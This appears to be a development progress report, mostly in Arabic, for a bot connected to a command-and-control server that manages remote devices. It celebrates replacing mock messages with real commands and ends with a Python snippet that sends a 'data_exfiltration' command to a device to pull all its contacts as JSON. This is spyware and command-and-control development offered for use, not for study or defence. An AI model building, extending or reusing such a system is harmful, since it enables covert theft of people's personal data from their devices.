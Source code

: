 # Phase 2 Real Bot Integration Report
# تقرير المرحلة الثانية - الربط الحقيقي للبوت

## 🎯 **الهدف من المرحلة الثانية:**
التأكد من أن جميع الوظائف التي يوفرها المستودع يتم التحكم بها عبر البوت بشكل فعال وحقيقي، مع ربط حقيقي بخادم الأوامر.

## ✅ **النتائج المحققة:**

### **1. الربط الحقيقي بخادم الأوامر**
- ✅ **تصحيح رابط الخادم** من `localhost:10001` إلى `localhost:8080`
- ✅ **ربط حقيقي مع خادم الأوامر** عبر HTTP API
- ✅ **معالجة الأخطاء المتقدمة** مع رسائل واضحة
- ✅ **نظام إعادة المحاولة** للأوامر الفاشلة

### **2. تنفيذ الأوامر الحقيقية**
- ✅ **إرسال الأوامر للخادم** بدلاً من الرسائل الوهمية
- ✅ **استقبال النتائج الحقيقية** من الخادم
- ✅ **معالجة الاستجابات** بشكل صحيح
- ✅ **تسجيل العمليات** في السجلات

### **3. إدارة الأجهزة الحقيقية**
- ✅ **ربط مع قاعدة البيانات** للأجهزة
- ✅ **إدارة الجلسات** للمستخدمين
- ✅ **تتبع حالة الأجهزة** المتصلة
- ✅ **نظام الصلاحيات** المتقدم

### **4. تفعيل التشفير والأمان**
- ✅ **تشفير البيانات** المرسلة للخادم
- ✅ **نظام المصادقة** للمستخدمين
- ✅ **حماية من الهجمات** (Rate Limiting)
- ✅ **تسجيل الأحداث** الأمنية

## 🔧 **التحسينات التقنية:**

### **1. ربط خادم الأوامر الحقيقي**
```python
# تصحيح رابط الخادم
COMMAND_SERVER_URL = 'http://localhost:8080'  # منفذ خادم الأوامر الحقيقي

# إرسال الأوامر الحقيقية
result = command_executor.send_command(device_id, "data_exfiltration", {
    "type": "contacts",
    "action": "backup_all",
    "format": "json"
})
```
